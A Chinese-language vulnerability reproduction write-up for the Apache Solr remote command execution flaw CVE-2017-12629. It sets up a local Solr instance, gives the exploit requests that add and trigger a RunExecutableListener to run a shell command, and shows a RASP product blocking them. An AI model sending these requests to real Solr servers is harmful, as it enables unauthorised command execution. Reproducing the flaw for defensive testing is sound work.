

# CVE-2017-12629

## 漏洞简介

Apache Solr 是一个开源的搜索服务器。Solr 使用 Java 语言开发，主要基于 HTTP 和 Apache Lucene 实现。
原理大致是文档通过Http利用XML加到一个搜索集合中。查询该集合也是通过 http收到一个XML/JSON响应来实现。
7.1.0之前版本总共爆出两个漏洞：XML实体扩展漏洞（XXE）和远程命令执行漏洞（RCE）

## 影响版本

Apache Solr < 7.1

Apache Lucene < 7.1（很多组件都用到这个，比如ES）

## 复现环境

### 下载Solr

[solr 7.0.1](https://archive.apache.org/dist/lucene/solr/7.0.1/)

### 启动Solr

```json
 bin/solr start
```

这样就可以在后台启动Solr，并监听8983端口，启动脚本会检查启动的正确性并返回提示信息到控制台。
这时就可以通过浏览器来访问管理控制台(http://localhost:8983/solr/)。

### 创建Core
如果没有使用示例配置，为了能够建立索引和查询，这里必须创建一个Core

```
bin/solr create -c Urahara # Urahara为你要创建的Core的名称
```

### 添加文档

这时候Solr中还是空的，我们需要添加一些文档以便进行索引。在example/目录的子目录下有不同的类型。

```
bin/post -c Urahara example/exampledocs/*.xml
```

```json
 solr-7.0.1 bin/post -c Urahara example/exampledocs/*.xml
/Library/Internet Plug-Ins/JavaAppletPlugin.plugin/Contents/Home/bin/java -classpath /Users/xxxx/Downloads/solr-7.0.1/dist/solr-core-7.0.1.jar -Dauto=yes -Dc=Urahara -Ddata=files org.apache.solr.util.SimplePostTool example/exampledocs/gb18030-example.xml example/exampledocs/hd.xml example/exampledocs/ipod_other.xml example/exampledocs/ipod_video.xml example/exampledocs/manufacturers.xml example/exampledocs/mem.xml example/exampledocs/money.xml example/exampledocs/monitor.xml example/exampledocs/monitor2.xml example/exampledocs/mp500.xml example/exampledocs/sd500.xml example/exampledocs/solr.xml example/exampledocs/utf8-example.xml example/exampledocs/vidcard.xml
SimplePostTool version 5.0.0
Posting files to [base] url http://localhost:8983/solr/Urahara/update...
Entering auto mode. File endings considered are xml,json,jsonl,csv,pdf,doc,docx,ppt,pptx,xls,xlsx,odt,odp,ods,ott,otp,ots,rtf,htm,html,txt,log
POSTing file gb18030-example.xml (application/xml) to [base]
POSTing file hd.xml (application/xml) to [base]
POSTing file ipod_other.xml (application/xml) to [base]
POSTing file ipod_video.xml (application/xml) to [base]
POSTing file manufacturers.xml (application/xml) to [base]
POSTing file mem.xml (application/xml) to [base]
POSTing file money.xml (application/xml) to [base]
POSTing file monitor.xml (application/xml) to [base]
POSTing file monitor2.xml (application/xml) to [base]
POSTing file mp500.xml (application/xml) to [base]
POSTing file sd500.xml (application/xml) to [base]
POSTing file solr.xml (application/xml) to [base]
POSTing file utf8-example.xml (application/xml) to [base]
POSTing file vidcard.xml (application/xml) to [base]
14 files indexed.
COMMITting Solr index changes to http://localhost:8983/solr/Urahara/update...
Time spent: 0:00:00.170
```

完成上述操作Solr就已经为这些文档建立索引并包含在这些文件中。

## 发起攻击

### 创建listener

首先创建一个listener，其中设置exe的值为我们想执行的命令，args的值是命令参数：

```json
POST /solr/Urahara/config HTTP/1.1
Host: your-ip
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 158

{"add-listener":{"event":"postCommit","name":"newlistener","class":"solr.RunExecutableListener","exe":"sh","dir":"/bin/","args":["-c", "touch /tmp/success"]}}
```
关键命令
```json
{
    "add-listener":{
        "event":"postCommit",
        "name":"newlistener",
        "class":"solr.RunExecutableListener",
        "exe":"sh",
        "dir":"/bin/",
        "args":[
            "-c",
            "touch /tmp/success"
        ]
    }
}
```


使用postman 发送上面的请求



### update

然后进行update操作，触发刚才添加的listener：

```
POST /solr/Urahara/update HTTP/1.1
Host: your-ip
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 15

[{"id":"test"}]
```

### 执行结果

/tmp/success 文件创建成功

## RASP防护

开启RASP防护，再次发起请求 。请求已经被阻断，RASP防护生效。
```json
{
  "cmdArray":[
    "sh",
    "-c",
    "touch /tmp/success"
  ],
  "stackTrace":[
    "java.lang.ProcessImpl.start(ProcessImpl.java)",
    "java.lang.ProcessBuilder.start(ProcessBuilder.java:1029)",
    "java.lang.Runtime.exec(Runtime.java:621)",
    "org.apache.solr.core.RunExecutableListener.exec(RunExecutableListener.java:98)",
    "org.apache.solr.core.RunExecutableListener.postCommit(RunExecutableListener.java:137)",
    "org.apache.solr.update.UpdateHandler.callPostCommitCallbacks(UpdateHandler.java:99)",
    "org.apache.solr.update.DirectUpdateHandler2.commit(DirectUpdateHandler2.java:686)",
    "org.apache.solr.update.CommitTracker.run(CommitTracker.java:222)",
    "java.util.concurrent.Executors$RunnableAdapter.call(Executors.java:511)",
    "java.util.concurrent.FutureTask.run(FutureTask.java:266)",
    "java.util.concurrent.ScheduledThreadPoolExecutor$ScheduledFutureTask.access$201(ScheduledThreadPoolExecutor.java:180)",
    "java.util.concurrent.ScheduledThreadPoolExecutor$ScheduledFutureTask.run(ScheduledThreadPoolExecutor.java:293)",
    "java.util.concurrent.ThreadPoolExecutor.runWorker(ThreadPoolExecutor.java:1149)",
    "java.util.concurrent.ThreadPoolExecutor$Worker.run(ThreadPoolExecutor.java:624)",
    "java.lang.Thread.run(Thread.java:748)"
  ]
}
```

2021-10-11 06:11:44 INFO  method: ProcessImpl.start.before, 耗时: 0.270498 ms
